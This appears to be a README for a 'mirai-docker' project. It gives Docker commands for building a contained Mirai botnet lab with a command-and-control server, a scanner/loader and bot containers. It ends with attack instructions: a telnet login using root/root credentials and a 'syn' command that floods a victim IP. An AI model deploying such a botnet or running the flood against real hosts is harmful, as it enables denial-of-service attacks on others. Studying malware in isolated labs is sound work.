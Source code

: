 # mirai-docker

## Network
Create: `docker network create --subnet=172.20.0.0/16 botnet`

## CNC
Build: `$ sudo docker build -t cnc .`  
Run: `$ sudo docker run --net botnet --ip 172.20.0.2 -i -t cnc`  

## Scanner/ Loader
Build: `$ sudo docker build -t scanListen .`  
Run: `$ sudo docker run --net botnet --ip 172.20.0.4 -i -t scanListen`
Start Bot: `$ ./init.sh`

## Carrier Bot (Bot 1)
Build: `$ sudo docker build -t bot .`  
Run: `$ sudo docker run --net botnet -i -t bot`  
Start Bot: `$ ./init.sh [0 or 1 for scanner]` 

## Victim Bots (Bot 2)
Build: `$ sudo docker build -t bot2 .`  
Run: `$ sudo docker run --net botnet -i -t bot2`  
Start Bot: `$ ./init.sh`

## Attack Instructions
Connect to CNC: `$ telnet "IP of CNC"`  
username: root  
password: root  
attack: `$ syn "IP of Victim" "duration of attack"`  

